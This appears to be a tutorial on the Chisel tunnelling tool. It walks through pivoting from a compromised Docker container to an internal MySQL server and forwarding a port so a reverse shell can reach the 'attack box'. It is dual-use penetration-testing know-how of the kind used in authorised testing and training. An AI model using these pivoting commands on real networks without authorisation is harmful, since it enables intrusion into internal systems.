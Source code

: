 <br />

## Installing Chisel  
`git clone https://github.com/jpillora/chisel.git`  
`cd chisel`  
`go build`  

You can change the GOOS and GOARCH environment variables before building to change the operating system and architecture the binary is built for  

**Note**: All of the example in this do not use the `--host` flag when running the server. This means the server listnes on `0.0.0.0:port` which is technically dangerous. To any of these examples you could specify an interface for the server to listen on with `--host <interface>` 

<br />

## Easy Chisel Example: Pivoting to a mysql server  

Here is the scenario; we have a shell on a docker container `172.17.0.3` and there is a mysql server running on `172.17.0.2` that we would like to pivot to  

We can use Chisel to do this  

On our attack box, start the chisel server:  
```bash
./chisel server --reverse -v -p 8688
```

Move the chisel binary to the pivot box  
The following will redirect connections to our attack box's localhost on port `3306` to port `3306` on the `172.17.0.2` host:  
(We run this from the pivot box):  
```bash
./chisel client 172.17.0.1:8688 R:127.0.0.1:3306:172.17.0.2:3306
```
In this case, `172.17.0.1` is the ip address accessible from the docker network of our attack box where the chisel server is running  
Now `mysql -h 127.0.0.1 -P 3306 -u root -p` will get us a mysql client connected to the server  

Two important things to note here:  
1. You can specify multiple port redirects with the same client command. ie: 
    - `./chisel client 172.17.0.1:8688 R:127.0.0.1:3306:172.17.0.2:3306 R:127.0.0.1:8082:172.17.0.2:80`  
2. You can have multiple chisel client instances running connected to one server instance  

<br />

Say now we get code execution on the box running the mysql server, and we want it to connect back to our attack box with a reverse shell  

We need a port forward in the other direction, accepting connections from `172.17.0.2` and forwarding them to our attack box  

We can do this with:  
`./chisel client 172.17.0.1:8688 9001:127.0.0.1:8017`  

**Note**: `127.0.0.1` is the **server's** localhost in this case, not the pivot's (client's). Therefore, the above command has the same result as running:  
`./chisel client 172.17.0.1:8688 9001:172.17.0.1:8017`  
